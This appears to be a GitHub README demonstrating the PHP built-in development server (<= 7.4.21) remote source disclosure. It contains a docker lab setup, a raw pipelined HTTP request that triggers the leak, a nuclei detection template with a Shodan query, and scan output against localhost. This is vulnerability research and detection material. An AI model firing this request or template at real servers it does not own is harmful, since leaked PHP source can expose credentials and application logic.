

# [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)

## demo

```shell
docker build . -t phptest
docker run -p 8888:8888 phptest
```



```http
GET /index.php HTTP/1.1
Host: localhost:8888
Content-Length: 29


GET /xyz.xyz HTTP/1.1


```

## nuclei template

```yaml
id: php-src-diclosure

info:
  name: PHP <= 7.4.21 - Built-in Server Remote Source Disclosure
  author: pdteam
  severity: medium
  metadata:
    verified: true
    shodan-query: The requested resource <code class="url">
  tags: php,phpcli,disclosure

requests:
  - raw:
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}
        
        GET /{{rand_base(3)}}.{{rand_base(2)}} HTTP/1.1
   
     

        
        
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body_1, "<?php")' 
          - '!contains(body_2, "<?php")'
        condition: and
```

```bash
┌──(realkali㉿kali)-[~/Documents]
└─$ nuclei -u localhost:8888 -t ./test.yaml

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v2.8.8

                projectdiscovery.io

[INF] Using Nuclei Engine 2.8.8 (latest)
[INF] Using Nuclei Templates 9.3.6 (latest)
[INF] Templates added in last update: 30
[INF] Templates loaded for scan: 1
[INF] Targets loaded for scan: 1
[INF] Running httpx on input host
[INF] Found 1 URL from httpx
[php-src-diclosure] [http] [medium] http://localhost:8888
```

## References

<https://blog.projectdiscovery.io/php-http-server-source-disclosure/>
